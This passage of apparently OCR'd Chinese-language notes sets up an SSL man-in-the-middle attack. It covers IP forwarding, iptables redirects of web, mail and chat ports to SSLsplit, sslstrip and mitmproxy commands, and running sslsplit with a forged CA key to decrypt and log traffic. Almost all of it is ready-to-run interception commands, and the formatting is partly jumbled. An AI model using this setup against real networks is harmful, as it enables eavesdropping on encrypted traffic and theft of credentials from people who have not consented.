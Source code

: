 5.启用IP转发和NAT引擎
假设SSLsplit运行在两个端口 8080用作非SSL的TCP连接，比如 http, smtp, ftp
8443 用作SSL的连接，比如SMTP over SSL, HTTPS等
为了转发 到达攻击者机器的IP到 互联网上的端口，可以这么设置

sysctl -w net.ipv4.ip_forward=1
1. ```
iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
  HTTPS:
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443

iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
  SMTP server on port 465
iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
  IMAP on port 143 or via IMAP over SSL on port 993
iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080
```
2. ```
sudo iptables -t nat -N SSLSPLIT
sudo iptables -t nat -A SSLSPLIT -p tcp --dport 80 -j REDIRECT --to-ports 8080
sudo iptables -t nat -A SSLSPLIT -p tcp --dport 443 -j REDIRECT --to-ports 8443

# enable
iptables -t nat -A PREROUTING -j SSLSPLIT

# disable
sudo iptables -t nat -D PREROUTING -j SSLSPLIT
```
mitmproxy sniffing into HTTPS only
sudo mitmproxy -T --host -e
sslstrip -a -k -f
sudo sslstrip -a -k -f -l 10000
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.

mkdir -p /tmp/sslsplit/logdir/
6.运行SSLsplit
`sslsplit  -D  -l connections.log  -j /tmp/sslsplit/  -S logdir/  -k ca.key  -c ca.cer   ssl 0.0.0.0 8443   tcp 0.0.0.0 8080`
# ./sslsplit
  -D
  -l connections.log
  -j /tmp/sslsplit/
  -S logdir/
  -k ca.key
  -c ca.cer
   ssl 0.0.0.0 8443
   tcp 0.0.0.0 8080
